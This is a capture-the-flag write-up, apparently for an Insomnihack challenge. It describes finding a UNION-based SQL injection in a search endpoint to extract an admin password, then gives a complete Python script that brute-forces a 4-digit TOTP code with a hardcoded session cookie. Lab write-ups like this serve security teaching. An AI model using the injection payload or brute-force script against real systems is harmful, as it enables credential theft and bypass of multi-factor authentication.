 First of all, we check the code (since it's whitebox) and find out three point :

- First, There is a login page.

- Second, there is a `/search` endpoint.

- Third, we need to have `Allowed-IPs: localhost` header to access it. 

After checking the endpoint we can see that it's vulnerable to a SQLI since the input is not sanatize and use to query the db.

With some `UNION` check we can see that the db has 3 column. So we can craft our payload to extract admin password :

`' UNION SELECT username, username, password FROM users--`

This gave us :

`admin:f!hLRXozzFhP3hM?`

But to connect we have to give an OTP code. After analysing the code we can see that the code is only 4 number and last for 4 minutes. We can try to bruteforce it in that window :

```python
import requests
import time
import random

url = "https://crackthegate.insomnihack.ch/mfa"
session_cookie = "eyJhdXRoZW50aWNhdGVkIjp0cnVlLCJtZmFfdmVyaWZpZWQiOmZhbHNlfQ.Z9ShWw.70sH83N0yCkaw4wlca-dSVu_0wY"
headers = {
    "Cookie": f"session={session_cookie}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
}

def brute_force_totp():
    while True:
        code = random.randint(0,9999) # take a random number
        totp_code = str(code).zfill(4)  # format to 4 numbers

        data = {
            "totp_code": totp_code
        }

        response = requests.post(url, headers=headers, data=data)

        if response.status_code == 302 and "dashboard" in response.headers.get("Location", ""):
            print(f"[+] Code TOTP valide trouvé : {totp_code}")
            break
        elif "Invalid TOTP code" in response.text:
            print(f"[-] Code incorrect : {totp_code}")
        else:
            print(f"[!] Réponse inattendue : {response.status_code} pour {totp_code}")

brute_force_totp()
```

With some luck it worked, and we can get the flag.

